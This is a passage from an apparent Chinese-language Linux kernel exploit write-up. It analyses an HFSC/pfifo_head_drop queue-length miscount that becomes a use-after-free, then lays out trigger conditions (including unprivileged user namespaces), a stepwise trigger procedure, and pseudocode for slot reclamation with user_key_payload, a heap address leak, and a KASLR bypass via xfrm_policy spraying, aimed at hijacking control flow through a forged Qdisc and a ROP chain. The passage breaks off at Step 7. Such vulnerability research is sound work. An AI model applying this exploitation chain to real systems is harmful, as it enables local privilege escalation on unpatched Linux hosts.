    cl->cl_e = rtsc_y2x(&cl->cl_eligible, cl->cl_cumul);
    cl->cl_d = rtsc_y2x(&cl->cl_deadline, cl->cl_cumul + next_len);

    eltree_insert(cl);                                    /* 插入 eligible 红黑树 */
}
```

##### 2-4-4-2. 出队

出队路径经由 `qdisc_peek_len()` 与 `qdisc_peek_dequeued()`，最终调用 `hfsc_dequeue()`。该函数从 `eligible` 树中取出类，并调用叶 qdisc 的 `dequeue`。在 UAF 建立后，`cl->qdisc` 指向伪造的 Qdisc，其 `dequeue` 函数指针可被控制，从而在 `qdisc_dequeue_peeked()` 内部完成控制流转移，最终导向权限提升。

```c
static unsigned int
qdisc_peek_len(struct Qdisc *sch)
{
    struct sk_buff *skb;                                  /* 队首数据包 */
    unsigned int len;                                     /* 数据包长度 */

    skb = sch->ops->peek(sch);                            /* 调用 peek 回调 */
    if (unlikely(skb == NULL)) {
        qdisc_warn_nonwc("qdisc_peek_len", sch);          /* 非工作 conserving 警告 */
        return 0;
    }
    len = qdisc_pkt_len(skb);                             /* 提取长度 */

    return len;
}
```

`qdisc_peek_dequeued()` 是通用的伪 peek 方法，用于非工作 conserving 的 qdisc。它在取出 skb 后会将其放回 `gso_skb` 头部并恢复 `qlen`。

```c
static inline struct sk_buff *qdisc_peek_dequeued(struct Qdisc *sch)
{
    struct sk_buff *skb = skb_peek(&sch->gso_skb);        /* 尝试从 GSO 队列获取 */

    /* 可以复用 gso_skb，因为根 qdisc 不会调用 peek */
    if (!skb) {
        skb = sch->dequeue(sch);                          /* 调用 dequeue 取出 */

        if (skb) {
            __skb_queue_head(&sch->gso_skb, skb);         /* 放回 GSO 队列头部 */
            /* skb 仍然属于队列 */
            qdisc_qstats_backlog_inc(sch, skb);           /* 更新积压统计 */
            sch->q.qlen++;                                /* 恢复 qlen */
        }
    }

    return skb;
}
```

`qdisc_dequeue_peeked()` 是真正的出队函数，`hfsc_dequeue()` 通过它从叶队列取出数据包。当 `gso_skb` 为空时，它会调用 qdisc 自身的 `dequeue` 回调。在 UAF 建立后，`cl->qdisc` 指向伪造的 Qdisc，其 `dequeue` 函数指针被控制，此处即控制流转移的入口，也是权限提升的起点。

```c
static inline struct sk_buff *qdisc_dequeue_peeked(struct Qdisc *sch)
{
    struct sk_buff *skb = skb_peek(&sch->gso_skb);      /* 尝试从 GSO 队列获取 */

    if (skb) {
        skb = __skb_dequeue(&sch->gso_skb);              /* 从 GSO 队列取出 */
        if (qdisc_is_percpu_stats(sch)) {
            qdisc_qstats_cpu_backlog_dec(sch, skb);      /* 更新 per-CPU 积压 */
            qdisc_qstats_cpu_qlen_dec(sch);              /* 更新 per-CPU qlen */
        } else {
            qdisc_qstats_backlog_dec(sch, skb);          /* 更新积压统计 */
            sch->q.qlen--;                               /* 减少 qlen */
        }
    } else {
        /* ★★★★★ 漏洞点 ★★★★★
         * gso_skb 为空时，调用 qdisc 自身的 dequeue 回调。
         * 在 UAF 建立后，cl->qdisc 指向伪造的 Qdisc，
         * 其 dequeue 函数指针被控制，此处即控制流转移的入口，
         * 最终导向权限提升。
         */
        skb = sch->dequeue(sch);
    }

    return skb;
}
```

`hfsc_dequeue()` 是 HFSC 的出队实现，从 `eligible` 树中选取最合适的类，并调用叶 qdisc 的 dequeue。

```c
static struct sk_buff *
hfsc_dequeue(struct Qdisc *sch)
{
    struct hfsc_sched *q = qdisc_priv(sch);               /* HFSC 私有数据 */
    struct hfsc_class *cl;                                /* 选中的类 */
    struct sk_buff *skb;                                  /* 取出的数据包 */
    u64 cur_time;                                         /* 当前时间 */
    unsigned int next_len;                                /* 下一个包长度 */
    int realtime = 0;                                     /* 是否使用实时标准 */

    if (sch->q.qlen == 0)
        return NULL;                                      /* 队列为空，直接返回 */

    cur_time = psched_get_time();

    /*
     * 若有 eligible 类，使用实时标准：
     * 从 eligible 类中选取截止期最小的类。
     */
    cl = eltree_get_mindl(q, cur_time);
    if (cl) {
        realtime = 1;
    } else {
        /*
         * 否则使用链路共享标准：
         * 获取层次中虚拟时间最小的类。
         */
        cl = vttree_get_minvt(&q->root, cur_time);
        if (cl == NULL) {
            qdisc_qstats_overlimit(sch);                  /* 超过限制统计 */
            hfsc_schedule_watchdog(sch);                  /* 调度看门狗 */
            return NULL;
        }
    }

    skb = qdisc_dequeue_peeked(cl->qdisc);                /* 从叶队列取出数据包 */
    if (skb == NULL) {
        qdisc_warn_nonwc("HFSC", cl->qdisc);              /* 非工作 conserving 警告 */
        return NULL;
    }

    bstats_update(&cl->bstats, skb);                      /* 更新类统计 */
    update_vf(cl, qdisc_pkt_len(skb), cur_time);          /* 更新虚拟时间 */
    if (realtime)
        cl->cl_cumul += qdisc_pkt_len(skb);               /* 更新累计量 */

    if (cl->cl_flags & HFSC_RSC) {                        /* 实时类 */
        if (cl->qdisc->q.qlen != 0) {                     /* 叶队列仍有数据 */
            /* 更新 ed */
            next_len = qdisc_peek_len(cl->qdisc);
            if (realtime)
                update_ed(cl, next_len);                  /* 更新 eligible 时间 */
            else
                update_d(cl, next_len);                   /* 更新截止期 */
        } else {
            /* 类变为非活跃 */
            eltree_remove(cl);                            /* 从 eligible 树移除 */
        }
    }

    qdisc_bstats_update(sch, skb);                        /* 更新 qdisc 统计 */
    qdisc_qstats_backlog_dec(sch, skb);                   /* 减少积压 */
    sch->q.qlen--;                                        /* 减少 qlen */

    return skb;
}
```

#### 2-4-5. 辅助函数

本节介绍与 KASLR 绕过相关的 `xfrm_policy` 辅助函数。`xfrm_policy` 对象位于 kmalloc-1k，通过批量申请可填充 slab，为越界读取提供包含内核函数指针的 victim object。`xfrm_policy_alloc()` 在初始化时通过 `timer_setup()` 将 `timer.function` 设置为 `xfrm_policy_timer`，该函数指针位于内核代码段，其地址与内核基址之间为固定偏移。越界读取到该指针后，减去静态偏移即可还原内核基址，为后续构造 ROP 链、完成权限提升提供必要信息。KASLR 绕过的完整触发流程见 2-6。

`xfrm_add_policy()` 是 `xfrm_policy` 的申请入口，负责解析 netlink 消息并构造策略对象。

```c
static int xfrm_add_policy(struct sk_buff *skb, struct nlmsghdr *nlh,
                           struct nlattr **attrs,
                           struct netlink_ext_ack *extack)
{
    struct net *net = sock_net(skb->sk);                  /* 当前网络命名空间 */
    struct xfrm_userpolicy_info *p = nlmsg_data(nlh);     /* 用户策略信息 */
    struct xfrm_policy *xp;                               /* 新建的策略对象 */
    struct km_event c;                                    /* 内核事件 */
    int err;                                              /* 错误码 */
    int excl;                                             /* 排他标志 */

    err = verify_newpolicy_info(p, extack);               /* 校验策略信息合法性 */
    if (err)
        return err;
    err = verify_sec_ctx_len(attrs, extack);              /* 校验安全上下文长度 */
    if (err)
        return err;

    xp = xfrm_policy_construct(net, p, attrs, &err, extack); /* 构造策略对象 */
    if (!xp)
        return err;

    /* excl 标志根据 nlmsg_type 决定，用于插入时的冲突检查 */
    excl = nlh->nlmsg_type == XFRM_MSG_NEWPOLICY;
    err = xfrm_policy_insert(p->dir, xp, excl);           /* 将策略插入对应方向 */
    xfrm_audit_policy_add(xp, err ? 0 : 1, true);         /* 审计策略新增事件 */

    if (err) {                                            /* 插入失败，释放策略 */
        xfrm_dev_policy_delete(xp);
        xfrm_dev_policy_free(xp);
        security_xfrm_policy_free(xp->security);
        kfree(xp);
        return err;
    }

    c.event = nlh->nlmsg_type;                            /* 事件类型 */
    c.seq = nlh->nlmsg_seq;                               /* 序列号 */
    c.portid = nlh->nlmsg_pid;                            /* 发送者端口 */
    km_policy_notify(xp, p->dir, &c);                     /* 通知策略事件 */

    xfrm_pol_put(xp);                                     /* 减少引用计数 */

    return 0;
}
```

`xfrm_policy_construct()` 负责构造策略对象，填充用户态传入的各类参数。

```c
static struct xfrm_policy *xfrm_policy_construct(struct net *net,
                                                 struct xfrm_userpolicy_info *p,
                                                 struct nlattr **attrs,
                                                 int *errp,
                                                 struct netlink_ext_ack *extack)
{
    struct xfrm_policy *xp = xfrm_policy_alloc(net, GFP_KERNEL); /* 分配策略对象 */
    int err;                                              /* 错误码 */

    if (!xp) {
        *errp = -ENOMEM;
        return NULL;
    }

    copy_from_user_policy(xp, p);                         /* 复制用户策略基本信息 */

    err = copy_from_user_policy_type(&xp->type, attrs, extack); /* 复制策略类型 */
    if (err)
        goto error;

    /* 复制模板与安全上下文，二者任一失败均跳转错误处理 */
    if (!(err = copy_from_user_tmpl(xp, attrs, p->dir, extack)))
        err = copy_from_user_sec_ctx(xp, attrs);
    if (err)
        goto error;

    xfrm_mark_get(attrs, &xp->mark);                      /* 获取策略标记 */

    if (attrs[XFRMA_IF_ID])
        xp->if_id = nla_get_u32(attrs[XFRMA_IF_ID]);      /* 设置接口 ID */

    /* 若请求硬件卸载，则进行相关配置 */
    if (attrs[XFRMA_OFFLOAD_DEV]) {
        err = xfrm_dev_policy_add(net, xp,
                                  nla_data(attrs[XFRMA_OFFLOAD_DEV]),
                                  p->dir, extack);
        if (err)
            goto error;
    }

    return xp;
 error:
    *errp = err;
    xp->walk.dead = 1;                                    /* 标记策略已死亡 */
    xfrm_policy_destroy(xp);                              /* 销毁策略 */
    return NULL;
}
```

`xfrm_policy_alloc()` 从 kmalloc-1k 缓存分配 `xfrm_policy` 对象，并完成关键字段的初始化。

```c
struct xfrm_policy *xfrm_policy_alloc(struct net *net, gfp_t gfp)
{
    struct xfrm_policy *policy;                           /* 新建的策略对象 */

    policy = kzalloc(sizeof(struct xfrm_policy), gfp);    /* 从 kmalloc-1k 分配并清零 */

    if (policy) {
        write_pnet(&policy->xp_net, net);                 /* 关联网络命名空间 */
        INIT_LIST_HEAD(&policy->walk.all);                /* 初始化遍历链表 */
        INIT_HLIST_HEAD(&policy->state_cache_list);       /* 初始化状态缓存链表 */
        INIT_HLIST_NODE(&policy->bydst);                  /* 初始化目的哈希节点 */
        INIT_HLIST_NODE(&policy->byidx);                  /* 初始化索引哈希节点 */
        rwlock_init(&policy->lock);                       /* 初始化读写锁 */
        refcount_set(&policy->refcnt, 1);                 /* 初始化引用计数 */
        skb_queue_head_init(&policy->polq.hold_queue);    /* 初始化持有队列 */
        /* timer.function 被设置为 xfrm_policy_timer，
         * 该指针位于内核代码段，是越界读取时用于计算内核基址的目标之一，
         * 内核基址为后续构造 ROP 链、完成权限提升提供必要信息
         */
        timer_setup(&policy->timer, xfrm_policy_timer, 0);
        timer_setup(&policy->polq.hold_timer,
                    xfrm_policy_queue_process, 0);        /* 设置队列处理定时器 */
    }
    return policy;
}
```

`xfrm_get_policy()` 是策略查询与删除的入口，非删除请求返回策略信息，删除请求释放策略引用。

```c
static int xfrm_get_policy(struct sk_buff *skb, struct nlmsghdr *nlh,
                           struct nlattr **attrs,
                           struct netlink_ext_ack *extack)
{
    struct net *net = sock_net(skb->sk);                  /* 当前网络命名空间 */
    struct xfrm_policy *xp;                               /* 策略指针 */
    struct xfrm_userpolicy_id *p;                         /* 用户策略 ID */
    u8 type = XFRM_POLICY_TYPE_MAIN;                      /* 策略类型 */
    int err;                                              /* 错误码 */
    struct km_event c;                                    /* 内核事件 */
    int delete;                                           /* 删除标志 */
    struct xfrm_mark m;                                   /* 策略标记 */
    u32 if_id = 0;                                        /* 接口 ID */

    p = nlmsg_data(nlh);
    delete = nlh->nlmsg_type == XFRM_MSG_DELPOLICY;       /* 判断是否为删除请求 */

    err = copy_from_user_policy_type(&type, attrs, extack); /* 复制策略类型 */
    if (err)
        return err;

    err = verify_policy_dir(p->dir, extack);              /* 校验策略方向 */
    if (err)
        return err;

    if (attrs[XFRMA_IF_ID])
        if_id = nla_get_u32(attrs[XFRMA_IF_ID]);          /* 获取接口 ID */

    xfrm_mark_get(attrs, &m);                             /* 获取策略标记 */

    if (p->index)                                         /* 按索引查找策略 */
        xp = xfrm_policy_byid(net, &m, if_id, type, p->dir,
                              p->index, delete, &err);
    else {                                                /* 按选择器查找策略 */
        struct nlattr *rt = attrs[XFRMA_SEC_CTX];         /* 安全上下文属性 */
        struct xfrm_sec_ctx *ctx;                         /* 安全上下文指针 */

        err = verify_sec_ctx_len(attrs, extack);          /* 校验安全上下文长度 */
        if (err)
            return err;

        ctx = NULL;
        if (rt) {
            struct xfrm_user_sec_ctx *uctx = nla_data(rt);

            err = security_xfrm_policy_alloc(&ctx, uctx, GFP_KERNEL); /* 分配安全上下文 */
            if (err)
                return err;
        }
        xp = xfrm_policy_bysel_ctx(net, &m, if_id, type, p->dir,
                                   &p->sel, ctx, delete, &err); /* 按选择器查找 */
        security_xfrm_policy_free(ctx);                   /* 释放安全上下文 */
    }
    if (xp == NULL)
        return -ENOENT;

    if (!delete) {                                        /* 非删除请求，返回策略信息 */
        struct sk_buff *resp_skb;

        resp_skb = xfrm_policy_netlink(skb, xp, p->dir, nlh->nlmsg_seq); /* 构造响应 */
        if (IS_ERR(resp_skb)) {
            err = PTR_ERR(resp_skb);
        } else {
            err = nlmsg_unicast(net->xfrm.nlsk, resp_skb,
                                NETLINK_CB(skb).portid);  /* 单播响应 */
        }
    } else {                                              /* 删除请求，通知并释放 */
        xfrm_audit_policy_delete(xp, err ? 0 : 1, true);  /* 审计删除事件 */

        if (err != 0)
            goto out;

        c.data.byid = p->index;                           /* 事件数据 */
        c.event = nlh->nlmsg_type;                        /* 事件类型 */
        c.seq = nlh->nlmsg_seq;                           /* 序列号 */
        c.portid = nlh->nlmsg_pid;                        /* 发送者端口 */
        km_policy_notify(xp, p->dir, &c);                 /* 通知策略事件 */
    }

out:
    xfrm_pol_put(xp);                                     /* 减少引用计数 */
    return err;
}
```

`xfrm_pol_put()` 递减策略对象的引用计数，归零时触发销毁流程。

```c
static inline void xfrm_pol_put(struct xfrm_policy *policy)
{
    if (refcount_dec_and_test(&policy->refcnt))           /* 递减引用计数 */
        xfrm_policy_destroy(policy);                      /* 计数归零，销毁策略 */
}
```

`xfrm_policy_destroy()` 在引用计数归零后安排 RCU 回调，延迟释放策略对象。

```c
void xfrm_policy_destroy(struct xfrm_policy *policy)
{
    BUG_ON(!policy->walk.dead);                           /* 确保策略已标记死亡 */

    if (del_timer(&policy->timer) || del_timer(&policy->polq.hold_timer))
        BUG();                                            /* 确保定时器已删除 */

    xfrm_dev_policy_free(policy);                         /* 释放设备策略 */
    call_rcu(&policy->rcu, xfrm_policy_destroy_rcu);      /* RCU 延迟释放 */
}
```

`xfrm_policy_destroy_rcu()` 是 RCU 回调，完成策略对象的实际内存释放。

```c
static void xfrm_policy_destroy_rcu(struct rcu_head *head)
{
    struct xfrm_policy *policy = container_of(head, struct xfrm_policy, rcu); /* 获取策略 */

    security_xfrm_policy_free(policy->security);          /* 释放安全上下文 */
    kfree(policy);                                        /* 释放策略内存 */
}
```

以上函数构成了 `xfrm_policy` 的完整生命周期，其作为堆喷的 victim object，位于 kmalloc-1k，内部包含 `xfrm_policy_timer` 等内核函数指针。越界读取到这些指针后，可据此计算内核基址。内核基址是后续构造 ROP 链、劫持控制流并最终完成权限提升的必要前提。

### 2-5. 触发条件

该漏洞的触发需要同时满足多个层面的条件，涵盖能力要求、内核配置、qdisc 层级结构、队列状态以及后续操作时序。以下逐项展开各条件的必要性及其相互作用。

#### 2-5-1. 能力要求

触发该漏洞需要 `CAP_NET_ADMIN` 与 `CAP_NET_RAW` 能力。`CAP_NET_ADMIN` 用于通过 netlink 接口创建、修改和删除 qdisc 与类；`CAP_NET_RAW` 用于创建原始数据包套接字，向目标网络设备发送数据包以触发入队路径。

在启用非特权用户命名空间（`CONFIG_USER_NS`）与网络命名空间（`CONFIG_NET_NS`）的环境中，普通用户可以通过 `unshare()` 系统调用创建独立的用户命名空间与网络命名空间。在新创建的网络命名空间中，该用户拥有完整的 `CAP_NET_ADMIN` 与 `CAP_NET_RAW` 能力，从而获得对 qdisc 子系统的配置权限。这一机制显著降低了漏洞的可达门槛，使得非特权用户也能满足能力要求。

#### 2-5-2. 内核配置

触发该漏洞需要以下内核配置项处于启用状态：

- `CONFIG_NET_SCHED`：启用流量控制调度框架，是 qdisc 子系统存在的前提。
- `CONFIG_NET_SCH_FIFO`：启用 FIFO 队列规则，`pfifo_head_drop` 即属于该模块。
- `CONFIG_NET_SCH_HFSC`：启用 HFSC 调度器，父 qdisc 需要为 HFSC 类型。
- `CONFIG_NET_CLS`：启用分类器框架，用于将数据包分类到具体类。
- `CONFIG_USER_NS`：启用非特权用户命名空间，用于在无特权情况下获得所需能力。
- `CONFIG_NET_NS`：启用网络命名空间，用于创建独立的网络环境。

此外，为了在后续利用阶段进行堆风水布局，还需要 `CONFIG_XFRM_USER` 等 XFRM 相关配置。这些配置在主流发行版内核中通常默认启用。

#### 2-5-3. qdisc 层级结构

触发计数偏差需要构建特定的 qdisc 层级结构。具体而言，需要满足以下条件：

- **父 qdisc 支持 `graft()` 操作**：父 qdisc 的类型必须提供 `graft` 回调，以便将子 qdisc 挂载到其类上。HFSC 与 DRR 等调度器均支持此操作。在漏洞触发流程中，父 qdisc 选用 HFSC。
- **子 qdisc 类型为 `pfifo_head_drop`**：子 qdisc 的类型必须为 `pfifo_head_drop`，其入队路径为 `pfifo_tail_enqueue()`，是计数偏差的起源函数。
- **子 qdisc 的 `limit == 0`**：子 qdisc 的 `limit` 字段必须被显式设置为 0。在正常的 `tc` 命令中，`limit 0` 通常被视为无效配置，但通过 netlink 消息直接构造 `TCA_OPTIONS` 属性可以绕过此限制，将 `limit` 设为 0。
- **父 qdisc 的返回值敏感性**：父 qdisc 的 `enqueue` 实现需将 `NET_XMIT_CN` 视为非成功状态，从而不增加自身的 `qlen`。HFSC 与 DRR 均满足此条件。

在上述结构下，当子 qdisc 的 `limit == 0` 且队列为空时，`pfifo_tail_enqueue()` 的丢弃步骤空转，追加步骤执行，子 qdisc 的 `qlen` 从 0 增加到 1，而父 qdisc 的 `qlen` 保持不变，计数偏差由此产生。

#### 2-5-4. 队列状态

计数偏差的产生还需要以下队列状态条件：

- **子 qdisc 队列为空**：触发时子 qdisc 的 `q.qlen` 必须为 0，使得 `pfifo_tail_enqueue()` 的丢弃步骤成为空操作。若队列非空，丢弃步骤会正常递减 `qlen`，追加步骤递增 `qlen`，二者相互抵消，不会产生偏差。
- **父 qdisc 的 `qlen` 处于可控状态**：在触发偏差之前，需要确保父 qdisc 的 `qlen` 为已知值（通常为 0），以便在删除子 qdisc 后能够精确计算出偏差的放大效果。

通过一系列 qdisc 创建与删除操作，可以进一步放大这一偏差。例如，先创建 `limit == 0` 的 `pfifo_head_drop` 子 qdisc，触发一次错误入队，再删除该子 qdisc。删除操作会从父 qdisc 的 `qlen` 中减去子 qdisc 的 `qlen`（此时为 1），而父 qdisc 的 `qlen` 原本为 0，于是父 qdisc 的 `qlen` 变为 -1。负的 `qlen` 在后续的 `hfsc_change_class()` 中仍然满足 `cl->qdisc->q.qlen != 0` 的判断，从而在 Flow1 尚未执行 `init_ed()` 之前提前触发 Flow2。

#### 2-5-5. 类变更时序

在计数偏差建立后，需要通过类变更操作触发 Flow2 与 Flow1 的错序。具体条件包括：

- **目标类存在叶 qdisc**：目标类必须已关联一个叶 qdisc，且该 qdisc 的 `qlen` 被放大为非零值（如 -1）。在 `hfsc_change_class()` 中，`cl->qdisc->q.qlen != 0` 条件成立，函数进入更新路径。
- **类标志切换**：通过先创建 `HFSC_FSC` 标志的类，再将其切换为 `HFSC_RSC`，可以触发 `init_ed()` 而非 `update_ed()`。这一切换使得 Flow1 与 Flow2 的调用顺序被颠倒。
- **`qdisc_peek_len()` 可正常返回**：在 `cl->qdisc->q.qlen != 0` 成立时，`hfsc_change_class()` 会调用 `qdisc_peek_len()` 窥视队首包长度。该函数通过 `ops->peek()` 获取队首 skb，若队列为空则返回 0。在漏洞场景中，叶 qdisc 的 `qlen` 被放大为非零值，`peek()` 能够正常返回，从而完成 `init_ed()` 的调用。

#### 2-5-6. dequeue 调用链

`->enqueue()` 返回 `NET_XMIT_SUCCESS` 时会触发 `->dequeue()`，而 `->dequeue()` 在 `sch->q.qlen == 0` 时提前返回。在 dequeue 调用链中，任何 `qlen == 0` 的 qdisc 都会阻止 dequeue 继续向下执行。这一特性在漏洞触发流程中被用于保持红黑树布局的稳定。

具体而言，在发送数据包触发 Flow1 时，需要确保 dequeue 调用链在到达目标 qdisc 之前就因 `qlen == 0` 而返回。例如，当 `Qdisc_B->q.qlen == 0` 时，dequeue 流程从 `hfsc_dequeue(Qdisc_A)` 进入 `hfsc_dequeue(Qdisc_B)` 后即提前返回，不会继续向下执行，从而避免 `eltree_remove()` 被意外调用，保持 `eligible` 红黑树的布局可控。

因此，触发条件中还需要仔细控制各 qdisc 的 `qlen`，使 dequeue 调用链在关键时刻不会打乱红黑树的节点状态。这一条件的满足依赖于对 qdisc 创建、删除与入队时序的精确控制。

#### 2-5-7. 条件汇总

综合以上分析，触发该漏洞需要同时满足以下条件：

- **能力要求**：`CAP_NET_ADMIN` 与 `CAP_NET_RAW`，可通过非特权用户命名空间获得。
- **内核配置**：`CONFIG_NET_SCHED`、`CONFIG_NET_SCH_FIFO`、`CONFIG_NET_SCH_HFSC`、`CONFIG_USER_NS`、`CONFIG_NET_NS` 等。
- **qdisc 层级结构**：父 qdisc 支持 `graft()`，子 qdisc 类型为 `pfifo_head_drop`，子 qdisc 的 `limit == 0`。
- **队列状态**：触发时子 qdisc 队列为空，父 qdisc 的 `qlen` 处于可控状态。
- **类变更时序**：目标类存在叶 qdisc，其 `qlen` 被放大为非零值；通过类标志切换触发 Flow2 与 Flow1 的错序。
- **dequeue 调用链**：确保 dequeue 在关键路径上因 `qlen == 0` 提前返回，保持红黑树布局稳定。

以上条件共同构成了漏洞触发的完整前提。在实际触发流程中，这些条件通过一系列精心编排的 qdisc 创建、删除、路由修改与数据包发送操作逐步建立，最终将简单的计数偏差放大为红黑树节点的自引用结构，并形成 UAF 槽位。

### 2-6. 触发流程

该漏洞的完整触发流程可分为多个阶段。前几个阶段用于构造一个 UAF 槽位；随后利用该 UAF 槽位完成 KASLR 绕过；最后重新构造一个独立的 UAF 槽位，用于完成权限提升。两个利用阶段使用不同的 UAF 槽位，彼此独立，避免相互干扰。以下按阶段逐一展开。

#### 2-6-1. 总体流程

整体流程可概括为：

- 首先在 HFSC 调度器与子 qdisc 之间建立计数偏差，通过 Flow2 与 Flow1 的错序使 `el_node` 形成自引用，删除目标类后形成 UAF 槽位。
- 随后利用第一个 UAF 槽位构建堆读原语，配合 `xfrm_policy` 堆喷完成 KASLR 绕过，获得内核基址。
- 最后重新构造第二个 UAF 槽位，用伪造的 Qdisc 回收该槽位，通过劫持 `hfsc_dequeue()` 中的 `qdisc_dequeue_peeked()` 调用完成控制流转移，执行 ROP 链完成权限提升。

KASLR 绕过与权限提升使用不同的 UAF 槽位，二者相互独立。

- KASLR 绕过阶段的 UAF 槽位被 `user_key_payload` 回收，用于堆读原语，其生命周期终止于越界读取完成之后。
- 权限提升阶段的 UAF 槽位被伪造的 Qdisc 回收，用于控制流劫持，其生命周期终止于 ROP 链执行完毕、返回用户态之后。
- 两个阶段共享相同的 UAF 构造流程，但各自独立执行一次，避免相互干扰。
- KASLR 绕过阶段获得的内核基址是权限提升阶段构造 ROP 链的必要输入；权限提升阶段的伪造 Qdisc 中，`dequeue` 函数指针与 ROP 链中所有函数地址均基于该内核基址计算。

各阶段之间通过精确的时序控制与内存布局操作相互衔接，最终将 `pfifo_tail_enqueue()` 的一个边界条件计数错误放大为可用于权限提升的 UAF 漏洞。

#### 2-6-2. 建立计数偏差

- 创建 HFSC qdisc（`Qdisc_A`）作为根 qdisc，挂载于目标网络设备，`defcls` 设为 0。
- 创建 `pfifo_head_drop` 类型的 qdisc（`Qdisc_C`），`limit` 设为 0，链接到 `Qdisc_A` 的根类。
- 发送一个数据包，数据包流经 `hfsc_enqueue(Qdisc_A)` → `pfifo_tail_enqueue(Qdisc_C)`。由于 `Qdisc_C` 的 `limit == 0` 且队列为空，丢弃步骤空转，追加步骤执行，`Qdisc_C->q.qlen` 从 0 变为 1，函数返回 `NET_XMIT_CN`。`hfsc_enqueue()` 收到非成功返回值后直接返回，不增加 `Qdisc_A->q.qlen`。
- 删除 `Qdisc_C`，`Qdisc_A->q.qlen` 变为 -1。

#### 2-6-3. 准备目标类与叶队列

- 创建 HFSC 类 `class_A`，带 `HFSC_RSC` 标志，挂载于 `Qdisc_A`。
- 创建 HFSC qdisc `Qdisc_B`，链接到 `class_A`。
- 创建 `pfifo_head_drop` qdisc `Qdisc_C`，`limit` 设为 0，链接到 `Qdisc_B` 的根类。
- 修改 `Qdisc_A` 的路由，使数据包通过 `class_A` 转发。
- 发送一个数据包，数据包流经 `hfsc_enqueue(Qdisc_A)` → `hfsc_enqueue(Qdisc_B)` → `pfifo_tail_enqueue(Qdisc_C)`。`Qdisc_C->q.qlen` 变为 1，`Qdisc_B->q.qlen` 保持为 0。
- 删除 `Qdisc_C`，`Qdisc_B->q.qlen` 变为 -1，`Qdisc_A->q.qlen` 变为 -2。
- 创建新的 `Qdisc_C`，`limit` 设为 `0xFFFFFFFF`，链接到 `Qdisc_B` 的根类。

#### 2-6-4. 触发 Flow2 与 Flow1 错序

- 调用 `hfsc_change_class()` 修改 `class_A`。由于 `cl->qdisc` 为 `Qdisc_B`，其 `q.qlen == -1 != 0`，函数进入更新路径。此时 `class_A` 的 `cl_flags` 与 `old_flags` 均包含 `HFSC_RSC`，因此调用 `update_ed()`（Flow2），完成第一次 `eltree_insert()`。
- 发送两个数据包。第一个入队使 `Qdisc_B->q.qlen` 变为 0，dequeue 在 `hfsc_dequeue(Qdisc_B)` 处提前返回，保持红黑树布局；第二个入队使 `Qdisc_B->q.qlen` 变为 1，触发 Flow1，调用 `init_ed()` → `eltree_insert()`，完成第二次插入。
- 两次插入作用于同一个 `el_node`，使其 `__rb_parent_color` 与 `rb_left` 指向自身，`sched->eligible.rb_node` 形成自引用。

#### 2-6-5. 形成 UAF 槽位

- 调用 `hfsc_delete_class()` 删除 `class_A`。`hfsc_destroy_class()` 释放 `class_A` 的叶 qdisc 与 `class_A` 对象本身，`kfree(cl)` 释放的 `hfsc_class` 对象即 UAF 槽位。
- 此时 `sched->eligible.rb_node` 仍持有指向该内存的悬空指针，UAF 槽位构造完成。

以上步骤在 KASLR 绕过与权限提升两个阶段各执行一次，分别得到两个独立的 UAF 槽位。两个阶段的 UAF 构造流程完全相同，但各自独立执行，互不干扰。

#### 2-6-6. KASLR 绕过

该阶段的目标是利用第一个 UAF 槽位构建堆读原语，配合 `xfrm_policy` 堆喷完成 KASLR 绕过，获得内核基址。该 UAF 槽位被 `user_key_payload` 回收，其生命周期终止于越界读取完成之后。以下以伪代码形式描述关键步骤，代码中的偏移常量与 writeup 中的命名保持一致。

```c
/* ============================================================
 * Step 1：构造第一个 UAF 槽位
 * ============================================================ */
prepare_uaf(route_socket, packet_socket, ifindex,
            qdisc_A_handle, qdisc_B_handle, qdisc_C_handle,
            classid_A);
trigger_uaf(route_socket, ifindex, classid_A);
/* 此时 uaf_slot_1 是 kmalloc-1k 中的一块已释放内存，
 * sched->eligible.rb_node 仍指向该内存的 el_node 字段 */

/* ============================================================
 * Step 2：用 user_key_payload 回收 UAF 槽位
 * ============================================================ */
fake_rb_node = (struct rb_node *)(user_key_payload_write_buffer
                                  + HFSC_CLASS_EL_NODE_OFFSET
                                  - sizeof(struct user_key_payload));
fake_rb_node->__rb_parent_color = 0 | RB_BLACK;
fake_rb_node->rb_right = NULL;
fake_rb_node->rb_left = NULL;
key_A = user_key_payload_alloc(fake_rb_node, sizeof(buffer));
/* 此时 UAF 槽位被 user_key_payload_A 占据，
 * sched->eligible.rb_node 指向 user_key_payload_A 的 data 区域内，
 * UAF_hfsc_class->cl_e 为 0 */

/* ============================================================
 * Step 3：泄露 class_B 的堆地址
 * ============================================================ */
create_hfsc_class(class_B, HFSC_RSC);
change_hfsc_qdisc_route(Qdisc_A, class_B);
trigger_qdisc_enqueue(Qdisc_A);
/* 入队触发 init_ed(class_B) -> eltree_insert(class_B)。
 * 由于 UAF_rb_node->rb_right 为 NULL 且 cl_e 为 0，
 * 每次插入均沿 rb_right 方向进行 */

user_key_payload_read(key_A, read_buffer, sizeof(read_buffer));
fake_rb_node = (struct rb_node *)(read_buffer
                                  + HFSC_CLASS_EL_NODE_OFFSET
                                  - sizeof(struct user_key_payload));
class_B_addr = (u64)fake_rb_node->rb_right - HFSC_CLASS_EL_NODE_OFFSET;
/* class_B_addr 即为 class_B 的堆地址 */

/* ============================================================
 * Step 4：删除 class_B，用 user_key_payload_B 回收其槽位
 * ============================================================ */
delete_tclass(class_B);
/* 删除后 Victim_Qdisc->q.qlen == -1 */

key_B = user_key_payload_alloc(buffer_B, sizeof(buffer_B));
/* 此时 user_key_payload_B 起始地址 == class_B_addr。
 * user_key_payload_B 的 datalen 被设为 0x200，
 * 使其对应的 rb_node 在红黑树中被判定为红色节点（RB_RED） */

/* ============================================================
 * Step 5：构造 fake rb_node，将 rb_left 指向 user_key_payload_B->datalen
 * ============================================================ */
fake_rb_node->rb_left = (struct rb_node *)(class_B_addr
                                           + sizeof(struct user_key_payload)
                                           - 8);
/* 该地址正好指向 user_key_payload_B->datalen。
 * 由于 user_key_payload_B 的 datalen 为 0x200，
 * 对应节点在红黑树中为红色，插入时会触发颜色翻转分支 */

/* ============================================================
 * Step 6：向 UAF_rb_node->rb_right 添加一个节点
 * ============================================================ */
create_hfsc_class(class_C, HFSC_RSC);
change_hfsc_qdisc_route(Qdisc_A, class_C);
trigger_qdisc_enqueue(Qdisc_A);
/* 入队触发 init_ed(class_C) -> eltree_insert(class_C)，
 * class_C->el_node 成为 UAF_rb_node 的右孩子。
 * 此时 UAF_rb_node 的左孩子指向 user_key_payload_B->datalen */

/* ============================================================
 * Step 7：找出与 UAF_rb_node 重叠的 user_key_payload
 * ============================================================ */
